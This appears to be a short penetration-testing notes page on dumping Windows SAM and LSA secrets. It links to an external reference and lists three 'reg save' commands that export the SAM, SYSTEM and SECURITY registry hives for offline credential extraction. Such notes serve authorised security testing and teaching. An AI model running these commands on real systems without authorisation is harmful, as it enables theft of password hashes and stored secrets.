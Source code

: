 # SAM & LSA secrets

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets#secrets-dump" %}

### Dump <a href="#theory" id="theory"></a>

```powershell
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save
```

